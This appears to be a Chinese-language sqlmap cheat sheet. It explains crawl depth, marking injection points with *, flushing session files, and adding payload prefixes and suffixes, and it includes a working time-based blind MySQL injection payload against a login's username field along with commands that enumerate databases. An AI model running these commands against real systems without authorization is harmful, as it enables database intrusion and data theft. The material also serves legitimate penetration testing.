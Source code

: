 #### 常用参数 - 爬取

```
--crawl=3
```
设置爬取深度.

```
req1.txt中的URL为:
http://192.168.0.1/web/

python sqlmap.py -r req1.txt --batch --crawl=3
[...]
[xx:xx:53] [INFO] starting crawler
[xx:xx:53] [INFO] searching for links with depth 1
[xx:xx:53] [WARNING] running in a single-thread mode. This could take a while
[xx:xx:53] [INFO] searching for links with depth 2
[xx:xx:54] [INFO] heuristics detected web page charset 'ascii'
[xx:xx:00] [INFO] 42/56 links visited (75%)
[...]
```

#### 常用参数 - 用*标记注入点

针对情况：伪静态 等sqlmap不能自动识别的格式

```
python sqlmap.py -u xxx.com/index.php/Index/view/id/40*.html --dbs
```

-r 也是在请求包文件中的参数值后面加*号


#### 常用参数 - 删除session文件

```
--flush-session
```

在一次成功获取数据后,想再次获取最新的数据,就可以用这个参数.

提示:仅会在数据文件夹中删除 这个文件夹 /xx.com/ 中的几乎所有信息,除了已经获取并保存为`results-xxxx.csv`的文件,它们会被重命名为`results-xxxx.csv1`


#### 常用参数 - payload前缀与后缀

某个网站登录处,手工测试存在SQL注入,但sqlmap默认无法发现漏洞.

只有根据手工测试结果(见Payload),使用参数 `--prefix` 和 `--suffix` 给Payload加上前缀和后缀,才能让sqlmap发现SQL注入漏洞,便于进行自动化.

```
python sqlmap.py -r req1.txt --random-agent --dbms=mysql --time-sec 10 -p username -v3 --tech=T --prefix="'" --suffix="--'"  --tamper=between --dbs

---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 5105 FROM (SELECT(SLEEP(10)))txIo)--'
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])
---
```
